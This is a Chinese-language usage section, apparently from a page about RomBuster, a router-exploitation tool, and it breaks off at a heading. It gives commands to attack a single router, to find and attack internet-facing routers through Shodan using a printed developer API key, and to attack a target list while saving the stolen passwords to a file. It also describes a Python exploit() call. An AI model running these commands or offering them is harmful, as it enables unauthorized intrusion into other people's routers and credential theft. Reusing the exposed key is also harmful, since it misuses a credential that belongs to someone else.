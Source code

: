 ## 工具使用样例

### 攻击单个路由器

下列命令可以攻击单个网络路由器：

    
          * 
    
    
    
    rombuster -a 192.168.99.1

### 通过网络攻击远程路由器

接下来，我们可以使用Shodan搜索引擎来搜索并攻击网络上的路由器：

    
          * 
    
    
    
    rombuster --shodan PSKINdQe1GyxGgecYz2191H2JoS9qvgD

注意：项目中给出的Shodan
API密钥（PSKINdQe1GyxGgecYz2191H2JoS9qvgD）是开发人员自己的专业版API密钥，你可以使用你自己的密钥，当然了你想用开发人员的也没意见，大家资源共享嘛！

### 从输入文件获取目标路由器

我们还可以使用开放数据库中提供的摄像头地址：

    
          * 
    
    
    
    rombuster -i routers.txt -o passwords.txt

注意：此命令将会攻击routers.txt中给出的所有摄像头，并会将所有获取到的密码存储至passwords.txt文件中。

## API使用

RomBuster还提供了自己的Python API，可以将其导入至你们自己的项目代码中并调用其功能：

    
          * 
    
    
    
    from rombuster import RomBuster

### 基础函数

下面给出的是RomBuster支持的基础函数，可以用于利用指定路由器中的安全漏洞：

> exploit(address)：攻击指定地址的单个路由器

### 调用样例

 **攻击单个路由器：**

    